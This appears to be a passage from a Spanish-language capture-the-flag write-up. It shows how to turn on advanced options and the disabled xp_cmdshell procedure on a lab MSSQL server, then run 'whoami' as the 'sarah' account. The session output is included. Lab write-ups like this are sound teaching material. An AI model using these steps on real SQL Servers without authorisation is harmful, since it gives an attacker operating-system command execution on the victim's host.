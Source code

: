 Vamos a tratar de ejecutar comados dentro del servidor:

```bash
1> xp_cmdshell "whoami"
2> go
Msg 15281, Level 16, State 1
Server 'TALLY', Procedure 'xp_cmdshell', Line 1
SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part
of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure.
For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
1>
```

Tenemos un error que nos manda debido a que el componente `xp_cmdshell`está deshabilitado como parte de las configuración de seguridad del servidor, pero no nos preocupamos ya que existe una forma de habilitar el componente.

```bash
1> sp_configure "xp_cmdshell",1
2> go
Msg 15123, Level 16, State 1
Server 'TALLY', Procedure 'sp_configure', Line 62
The configuration option 'xp_cmdshell' does not exist, or it may be an advanced option.
(return status = 1)
1>
```

Al intentar cambiar la configuración con `sp_configure` nos indica que el componente `xp_cmdshell` no existe. En este punto es necesario habilitar las opciones avanzadas de `sp_configure`.

```bash
1> sp_configure "show advanced options", 1
2> go
Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
1> reconfigure
2> go
1>
```

Y ahora si vamos a tratar de habilitar `xp_cmdshell`:

```bash
1> sp_configure "xp_cmdshell", 1
2> go
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
1> reconfigure
2> go
1> xp_cmdshell "whoami"
2> go

        output                                                                     
        -------------------------------------------------------------------------------------------------------------------------
---------------------------------------------------------------------------------------------------------------------------------
---------------------------------------------------------------------------------------------------------------------------------
---------------------------------------------------------------------------------------------------------------------------------
----
        tally\sarah                                                               
        NULL                                                                       
```